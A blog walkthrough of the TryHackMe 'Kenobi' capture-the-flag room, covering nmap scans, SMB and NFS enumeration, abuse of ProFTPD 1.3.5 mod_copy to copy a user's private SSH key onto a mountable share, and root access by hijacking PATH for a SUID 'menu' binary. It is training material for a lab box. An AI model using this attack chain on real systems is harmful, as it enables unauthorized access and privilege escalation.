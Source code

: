 ```yaml
---
title: "Help Me, Obi-Wan Kenobi. You're My Only Hope: Navigating the Kenobi CTF on TryHackMe"
slug: kenobi
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


This walkthrough will cover the [Kenobi](https://tryhackme.com/room/kenobi) CTF found on [TryHackMe](https://tryhackme.com). It will include accessing a Samba share, exploiting a vulnerable version of ProFtpd to gain initial access, and escalating privileges to root using a SUID binary.

### Step 1: Nmap

```bash
nmap -A -p- -T4 10.10.117.14 -vvv
```

```plaintext
PORT      STATE SERVICE     REASON         VERSION
21/tcp    open  ftp         syn-ack ttl 61 ProFTPD 1.3.5
22/tcp    open  ssh         syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8m00IxH/X5gfu6Cryqi5Ti2TKUSpqgmhreJsfLL8uBJrGAKQApxZ0lq2rKplqVMs+xwlGTuHNZBVeURqvOe9MmkMUOh4ZIXZJ9KNaBoJb27fXIvsS6sgPxSUuaeoWxutGwHHCDUbtqHuMAoSE2Nwl8G+VPc2DbbtSXcpu5c14HUzktDmsnfJo/5TFiRuYR0uqH8oDl6Zy3JSnbYe/QY+AfTpr1q7BDV85b6xP97/1WUTCw54CKUTV25Yc5h615EwQOMPwox94+48JVmgE00T4ARC3l6YWibqY6a5E8BU+fksse35fFCwJhJEk6xplDkeauKklmVqeMysMWdiAQtDj
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBpJvoJrIaQeGsbHE9vuz4iUyrUahyfHhN7wq9z3uce9F+Cdeme1O+vIfBkmjQJKWZ3vmezLSebtW3VRxKKH3n8=
|   256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGB22m99Wlybun7o/h9e6Ea/9kHMT0Dz2GqSodFqIWDi
80/tcp    open  http        syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
111/tcp   open  rpcbind     syn-ack ttl 61 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100005  1,2,3      51719/udp6  mountd
|   100005  1,2,3      55558/udp   mountd
|   100005  1,2,3      59043/tcp   mountd
|   100005  1,2,3      60167/tcp6  mountd
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open              syn-ack ttl 61 Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp  open  nfs_acl     syn-ack ttl 61 2-3 (RPC #100227)
34619/tcp open  nlockmgr    syn-ack ttl 61 1-4 (RPC #100021)
46053/tcp open  mountd      syn-ack ttl 61 1-3 (RPC #100005)
59043/tcp open  mountd      syn-ack ttl 61 1-3 (RPC #100005)
60883/tcp open  mountd      syn-ack ttl 61 1-3 (RPC #100005)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/7%OT=21%CT=1%CU=40628%PV=Y%DS=4%DC=T%G=Y%TM=64A89F2C
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(SP=10
OS:1%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(SP=101%GCD=1%ISR=10A%TI=Z%CI=I%II=I%T
OS:S=8)SEQ(SP=101%GCD=2%ISR=109%TI=Z%II=I%TS=8)OPS(O1=M509ST11NW7%O2=M509ST
OS:11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=M509ST11NW7%O6=M509ST11)WIN(W1=6
OS:8DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M
OS:509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T
OS:4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
OS:%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.003 days (since Fri Jul  7 17:22:14 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m03s, deviation: 2h53m12s, median: 2s
| nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KENOBI<00>           Flags: <unique><active>
|   KENOBI<03>           Flags: <unique><active>
|   KENOBI<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2023-07-07T23:26:33
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2023-07-07T18:26:33-05:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 18419/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 14290/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 27356/udp): CLEAN (Failed to receive data)
|   Check 4 (port 22821/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

This box contains multiple attack vectors to help enumerate and gather useful information to gain our initial foothold. To begin, we will focus on port 445, SMB.

### Step 2: Enumerate SMB

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691585228290/84eff752-f81c-435c-b68b-1ccd52dca756.png){: .center-image }

Using nmap scripts we can further enumerate port 445 to find available shares.

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-user.nse 10.10.165.161
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691585954065/953e4d73-a1bc-4a00-ac98-8f74d0aa33ec.png){: .center-image }

There are a total of 3 shares. Let's connect to one of them using `smbclient`.

```bash
smbclient //10.10.165.161/anonymous
```

Upon connecting, we discover a `log.txt` file. We can pull this down using the `smbget` command.

```bash
smbget -R smb://10.10.165.161/anonymous
```

### Step 3: Enumerate NFS

Similar to SMB, we can use nmap scripts to further enumerate NFS.

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.165.161
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586002335/e4109953-78e4-4363-90be-1f612b046171.png){: .center-image }

We discover `/var` is a mountable network drive.

### Step 4: ProFtpd

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586017713/76be6748-a0ac-4ac2-b3ca-9c36cc354410.png){: .center-image }

Using netcat we can determine what version of ProFtpd is running.

```bash
nc 10.10.165.161 21
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586031160/4ee327c3-db5c-4f4e-84f5-85516d0f28eb.png){: .center-image }

Let's use `searchsploit` to see if this version has a vulnerability.

```bash
searchsploit ProFtpd 1.3.5
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586044971/4a61fc21-4adb-4aba-8c24-23a4b907b6d0.png){: .center-image }

Looks like there is a Metasploit module called `mod_copy`. But let's do this the manual way using netcat.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586051498/7c40718d-2a19-41d5-b4b2-16eebcf79ebd.png){: .center-image }

What we did was move the private key over to `/var` since we discovered that was the mount point during our SMB enumeration. Let's mount to the `/var/tmp` directory now.

```bash
mkdir /mnt/kenobiNFS
mount 10.10.165.161:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

We now have the network mounted on our attack box. Let's pull down the `id_rsa` SSH key and use it to connect to the box using Kenobi's account.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586070312/0644a500-f20f-42d9-ac96-acc4bf3aed36.png){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586074001/0d2a88fc-0940-4a8f-af9a-e5e39d23b076.png){: .center-image }

We're in! You'll find your first flag at `/home/kenobi/user.txt`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586086159/1358d236-98a7-4cc6-9f10-d8d56b9b7ed1.png){: .center-image }

### Step 5: Privesc and Root

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586100815/57fdc0ed-56d0-4fd7-a43b-79d6e824852c.webp){: .center-image }

Let's search the system for a binary running elevated permissions.

```bash
find / -perm -u=s -type f 2>/dev/null
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586116402/00c9b277-6786-4021-bcb5-da4a7906e0cb.webp){: .center-image }

The binary `/usr/bin/menu` is not ordinary and can be used for elevating privileges. Let's move it over to the `/tmp` directory since we know it's writable. From there we can change the name of `/bin/sh` to `curl` and give it the appropriate permissions to run. From there we will put it on the same path as `/tmp`.

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691586137377/5542d71a-f954-47f8-9aac-0806e2c056c3.webp){: .center-image }

And we have root! Type `cat /root/root.txt` and you'll find your last flag.

I hope you enjoyed this walkthrough of the [Kenobi](https://tryhackme.com/room/kenobi) CTF found on [TryHackMe](https://tryhackme.com). Happy Hacking.